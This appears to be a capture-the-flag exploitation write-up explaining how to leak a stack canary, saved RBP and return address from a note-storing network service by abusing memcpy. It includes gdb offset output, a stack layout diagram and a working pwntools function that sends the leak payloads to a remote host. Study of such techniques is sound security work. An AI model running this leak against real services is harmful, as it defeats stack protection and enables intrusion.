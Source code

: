 Here we have the content of '$rbp-0x8' where the canary is stored. And with gdb we can found how much offset before this address:

```
gdb-peda$ pattern_offset 0x6e41412441414241
7944702841627689537 found at offset: 8
```

**The canary start after 8 bytes**

#### Read canary EBP and the return address

The function used to copy a note into in other offest is "memcpy":

```
void *memcpy(void *dest, const void * src, size_t n)
```

This function dosen't verify the presence of "\x00" end of string. and so we can put "\x00" in the payload and the function will continue copying.
The first canary byte is always "\x00" to block any payload using a functions like "scanf()" etc which stop reading when find the "\x00".
With the first test to know how much bytes to reach the canary block we caught 8 bytes.

```
 => |          Buffer                   |          8 bytes junk        |         8 Bytes of canary    |           8 Bytes RBP            |         8 Bytes Return Address   |
```

- We place index at the end of buffer(put 1024 bytes into notes[])
- With CMD2 we put the offset at 1024 too and tell "memcpy()" to copy 32 bytes which represent the 4 qword (qword == 64bits == 8bytes), and add 32 to index(index+=32)
- We  overrite the buffer but we copy the same value, because "dest" and "src" offset are the same, so we overwite without throw a  smach stack error. 
- Using the CMD3, we can write the note buffer(send to client), and read the buffer + 32bytes after the buffer (canary,EBP,RIP)

#### Code

```
def read_canary_ebp_rsp():
    payload_fullbuff= put_payload_into_notebuffer()

    #Now index =1024, let's use CMD2 and define offset as 1024 and use memcpy() to copy the canary rbp and rsp into the end of the node[]
    payload_bof =copy_to_note(1024,32)    
    # send the two payload and read the three registers
    p = remote(args.ip,args.port)
    p.send(payload_fullbuff)  # send the payload to put all in the note buffer
    p.send(payload_bof)   # throw bof wiht cmd2

    data= p.recv()
    canary=u64(data[1024+8:1024+16])
    RBP=u64(data[1024+16:1024+24])
    RIP=u64(data[1024+24:1024+32])
    
    canary_formated = binascii.hexlify(struct.pack(">Q",canary)).decode() # fromated address to little endian and in hexa form 
    RBP_formated = binascii.hexlify(struct.pack(">Q",RBP)).decode() # fromated address to little endian and in hexa form 
    RIP_formated = binascii.hexlify(struct.pack(">Q",RIP)).decode() # fromated address to little endian and in hexa form 

    print(colored("Canary: 0x%s "%canary_formated,"green"))
    print(colored("RBP:    0x%s "%RBP_formated,"green"))
    print(colored("RIP:    0X%s "%RIP_formated,"green"))
    p.close()
    return (canary,RBP,RIP)
```